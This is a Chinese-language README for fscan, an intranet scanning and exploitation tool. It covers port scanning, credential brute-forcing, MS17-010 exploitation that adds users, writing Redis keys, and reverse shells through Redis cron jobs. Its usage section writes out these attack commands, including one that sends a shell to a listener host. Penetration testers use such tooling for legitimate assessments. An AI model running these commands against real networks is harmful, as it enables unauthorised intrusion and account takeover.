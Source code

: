 # fscan

# 1. 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

# 2. 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb、rdp等)
* 数据库密码爆破(mysql、mssql、redis、psql、oracle等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务  
* ssh命令执行  
* ms17017利用(植入shellcode),如添加用户等  

6.其他功能:
* 文件保存

# 3. 使用说明
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
fscan.exe -h 192.168.1.1/24 -socks5 127.0.0.1:1080
fscan.exe -h 192.168.1.1/24 -m ms17010 -sc add (内置添加用户等功能,只适用于备选工具,更推荐其他ms17010的专项利用工具)
```
编译命令
```
go build -ldflags="-s -w " -trimpath main.go
```